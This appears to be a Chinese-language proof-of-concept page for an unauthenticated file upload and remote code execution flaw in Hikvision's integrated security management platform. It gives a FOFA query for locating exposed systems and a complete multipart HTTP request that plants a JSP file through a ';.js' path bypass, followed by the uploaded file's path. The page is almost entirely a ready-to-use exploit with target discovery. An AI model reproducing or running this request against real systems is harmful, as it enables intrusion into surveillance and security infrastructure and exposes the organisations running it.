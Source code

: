 # 海康威视综合安防管理平台clusters接口存在任意文件上传漏洞

海康威视综合安防管理平台 `/clusterMgr/clusters/ssl/file` 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码。

## fofa

```yaml
app="HIKVISION-综合安防管理平台"
```

## poc

```java
POST /clusterMgr/clusters/ssl/file;.js HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/112.0.0.0 Safari/537.36 HTML
Accept: */*
Host: 8.8.8.8:1443
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------984514492333278399715408
Content-Length: 339

----------------------------984514492333278399715408
Content-Disposition: form-data; name="file"; filename="languages/default.jsp"
Content-Type: image/png

<%=123%>
----------------------------984514492333278399715408
Content-Disposition: form-data; name="proxyAddress"

8.8.8.8
----------------------------984514492333278399715408--
```

文件地址`/clusterMgr/languages/default.jsp;.js`

